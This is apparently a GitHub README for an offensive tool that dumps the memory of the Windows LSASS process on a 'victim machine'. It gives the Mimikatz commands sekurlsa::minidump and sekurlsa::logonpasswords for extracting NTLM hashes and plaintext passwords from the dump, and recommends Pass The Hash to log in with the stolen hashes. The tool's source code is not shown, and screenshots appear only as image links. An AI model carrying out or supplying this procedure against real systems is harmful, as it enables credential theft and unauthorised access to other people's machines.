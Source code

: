 # Dump Lsass.exe C++ & Mimikatz

Youtube Video example:
https://youtu.be/9Y67T9bIPQY

**Usage**

And now we execute into victim machine:

![image](https://github.com/S12cybersecurity/DumpLsass/assets/79543461/673fc939-1abf-4b35-8359-3e342f45b99e)

![image](https://github.com/S12cybersecurity/DumpLsass/assets/79543461/890fb4af-93a9-4c04-91c2-d64712734a07)

Now let's read this dump with mimikatz:
Mimikatz shell:

**sekurlsa::minidump C:\Users\Public\Music\lsass.dmp**

![image](https://github.com/S12cybersecurity/DumpLsass/assets/79543461/2a55eeaf-5e8e-4b39-8768-87e6e8512e0c)

**sekurlsa::logonpasswords**

![image](https://github.com/S12cybersecurity/DumpLsass/assets/79543461/600246c3-9067-4112-a643-9e2d067def20)

And we have the NTLM and we can enter the machine using Pass The Hash Tecnique, and if the user account will not be a Microsoft Account we can see the Password!
